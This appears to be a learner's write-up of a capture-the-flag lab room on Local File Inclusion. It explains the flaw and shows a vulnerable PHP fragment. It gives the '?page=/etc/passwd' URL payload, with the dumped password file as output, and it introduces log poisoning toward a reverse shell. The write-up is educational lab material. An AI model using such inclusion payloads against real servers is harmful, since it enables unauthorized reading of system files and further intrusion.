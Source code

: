 # LFI - Local File Inclusion


### what is LFI??

- Local file inclusion is a vulnerability which an attacker can exploit to include and read files they are not supposed to leading to them discovering ways to harm the system.

- This is another issue of blinding trusting user input. This attack is mostly performed on php backends as they have the include statement. This include statement can be fed very malicious code which it will also execute.

-This could resut in..
1. Denial of service attack.	
2. Remote code execution on the server.
3. Sensitive Information Disclosure.

### Task 1 - Local File Inclusion

```text
export IP=10.10.195.25
```

- Accessed the web server on the ip and did my first local file inclusion exploit.

- Added this query at the end of the url of the vulnerable webapp 
```text
?page=home.html 

?page=/etc/passwd
```

- /etc/passwd file as read from the server
```text
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash

```

- Here is a sample of a vulnerable php code that allows file inclusion
```php
<?php 
	$local_file = $_REQUEST["page"]
?>
```

### [Task 2] Local File Inclusion Using Directory Traversal

- directory traversal also called path traversal or backtracking is accessing files on the servers system that is not intended to be seen by end user. This is done by manipulating variables used to reference the files. [futher-reading](https://owasp.org/www-community/attacks/Path_Traversal)

- This path traversal just means using the dot-dot-slash linux path traversal to try to locate further out of the webroot directory.


### [Task 3] Reaching RCE using LFI and log poisoning

- Okay even the heading sounds not easy! LOL.

- Log poisoning from what i'm reading online is trying to get a reverse shell on the server by injecting malicious code into the server logs through lfi. [further-reading](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

- The room guide asks to fire up burpsuite and since I have not used it before, i'll just fire up python for this task. Doing a little script to send the request to the website and return the response html code.
